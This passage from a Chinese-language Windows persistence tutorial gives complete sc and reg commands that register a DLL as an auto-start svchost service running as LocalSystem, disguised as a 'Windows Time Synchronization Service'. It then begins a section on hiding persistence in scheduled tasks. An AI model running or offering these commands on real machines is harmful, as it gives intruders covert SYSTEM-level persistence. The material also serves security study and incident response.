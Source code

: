 64位系统中注册32位服务命令如下：

```
sc create TimeSync binPath= "C:\Windows\Syswow64\svchost.exe -k netsvr" start= auto obj= LocalSystem
reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "C:\Users\hunter\Desktop\localService32.dll" /f /reg:32
reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v Description /t REG_SZ /d "Windows Time Synchronization Service" /f /reg:32
reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v DisplayName /t REG_SZ /d "TimeSyncSrv" /f /reg:32
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v netsvr /t REG_MULTI_SZ /d TimeSync /f /reg:32
sc start TimeSync
```

64位系统命令如下：

```
sc create TimeSync binPath= "C:\Windows\System32\svchost.exe -k netsvr" start= auto obj= LocalSystem
reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "C:\Users\hunter\Desktop\localService32.dll" /f /reg:64
reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v Description /t REG_SZ /d "Windows Time Synchronization Service" /f /reg:64
reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v DisplayName /t REG_SZ /d "TimeSyncSrv" /f /reg:64
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v netsvr /t REG_MULTI_SZ /d TimeSync /f /reg:64
sc start TimeSync
```

注意这里有个大坑，使用“reg add”命令向注册表键中添加数据的时候是直接覆盖的，而“HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost”中的大多数的键都是REG_MULTI_SZ类型，即多行数据。因此千万不能直向已经存在的键中写入数据，系统启动所需要的服务都在里面，覆盖后会出大问题！（所以上面命令中是用的“netsvr”，这个键默认是不存在的）

## 0x04 计划任务

权限要求：未降权的管理员权限/普通用户。  
计划任务也是一项很好的持久化利用点。不同于自启注册键和服务项，计划任务的设定方式更多样、灵活，位置也相对较为隐蔽（手工排查要多点几下）。比如，曾经在一线做安服的时候，有一阵子碰到闹得很凶的“驱动人生”挖矿木马其中的一个持久化方式就是在定时任务中创建了很多powershell脚本来做的持久化，它的stager直接以base64编码的方式写在计划任务的命令行参数中。那个输入框很短，对没有经验的工程师来说后面的内容就很容易没有看到而忽略掉。  
Windows中有命令“SCHTASKS”用来管理计划任务，支持下面几个选项：

```
SCHTASKS /parameter [arguments]

描述:
    允许管理员创建、删除、查询、更改、运行和中止本地或远程系统上的计划任
    务。

参数列表:
    /Create         创建新计划任务。

    /Delete         删除计划任务。

    /Query          显示所有计划任务。

    /Change         更改计划任务属性。

    /Run            按需运行计划任务。

    /End            中止当前正在运行的计划任务。

    /ShowSid        显示与计划的任务名称相应的安全标识符。

    /?              显示此帮助消息。
```